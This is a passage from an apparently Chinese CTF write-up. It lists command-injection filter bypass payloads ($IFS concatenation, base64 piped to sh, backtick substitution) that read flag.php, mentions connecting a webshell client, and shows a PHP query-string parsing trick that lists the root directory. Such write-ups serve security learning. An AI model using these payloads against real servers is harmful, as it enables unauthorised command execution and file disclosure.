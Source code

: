 ```php
  echo "<pre>";
  print_r($a);
}

?>
```

可以看到确实过滤了很多东西

### 1)拼接

```
?ip=1;a=g;cat$IFS$1fla$a.php;
```

### 2)base64

```
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

其中Y2F0IGZsYWcucGhw是cat flag.php的base64编码，之后用base64 -d命令解码

### 3)内敛绕过(NB)

```
?ip=111;cat$IFS$1`ls`
```

就是将反引号内命令的输出作为输入执行。



## 0xB.[极客大挑战 2019]Knife

菜刀连一下就OK

## 0xC.[RoarCTF 2019]Easy Calc

这题用到的知识点：**PHP的字符串解析特性**

**可以先查看根目录下文件：**

```
?%20num=1;var_dump(scandir(chr(47)))
```
